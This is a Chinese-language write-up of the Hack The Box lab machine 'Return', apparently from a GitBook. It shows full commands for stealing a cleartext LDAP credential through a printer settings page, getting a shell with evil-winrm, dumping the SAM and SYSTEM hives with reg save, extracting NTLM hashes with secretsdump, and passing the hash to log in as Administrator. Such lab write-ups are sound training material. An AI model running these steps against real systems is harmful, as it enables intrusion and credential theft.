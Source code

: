 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (15).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (17).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (16).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (18).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，至此提权成功！

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```



{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}
